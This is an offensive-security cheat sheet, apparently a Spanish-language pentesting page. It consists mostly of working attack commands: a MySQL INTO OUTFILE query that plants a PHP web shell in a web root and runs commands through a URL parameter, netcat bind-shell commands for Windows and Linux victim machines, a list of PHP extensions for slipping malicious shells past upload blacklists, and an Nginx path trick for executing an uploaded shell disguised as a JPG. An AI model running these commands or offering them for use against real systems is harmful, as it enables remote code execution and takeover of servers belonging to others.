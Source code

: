 ```bash 
# Debemos estar dentro del servicio de MySQL

❯ select '<?php  $output=shell_exec($_GET["cmd"]);echo "<pre>".$output."</pre>"?>' into outfile '/var/www/html/shell.php' from mysql.user limit 1; 

# Ahora en la URL podemos ejecutar comandos 
❯ shell.php?cmd=whoami            
```

## Bind Shell:

```bash
# Desde la terminal del SO

1. ❯ nc.exe -nlvp 443 -e cmd.exe            # Ejecutamos desde la terminal (Maquina victima) para ponernos en escucha y hacer una BindShell en Windows 
1. ❯ nc IP 443                              # Ejecutamos en para completar la Bind Shell (Maquina atacante) Linux


2. ❯ nc -nlvp 443 -c /bin/bash              # Ejecutamos desde la terminal (Maquina victima) para ponernos en escucha y hacer una BindShell en Linux
2. ❯ nc.ex -nv IP 443                       # Ejecutamos en para completar la Bind Shell (Maquina atacante) Windows 
```

## Bypass PHPx Blacklist 

```bash 
# Diferentes extensiones PHP para subir 'Shells' maliciosas 

* php
* php3
* php4
* php5
* php6
* php7
* pht
* phtm
* phtml
* phar
* pHP

```

## Bypass Web Weevely

```bash 
# Byppass en Nginx, subimos el archivo con la extension que permite subir, despues en la url lo cambiar al formato php y se puede ejecutar comandos 

❯ http://IP/uploads/shell.jpg/shell.php?cmd=whoami

	# shell.jpg = Extension que nos deja subir la web
```

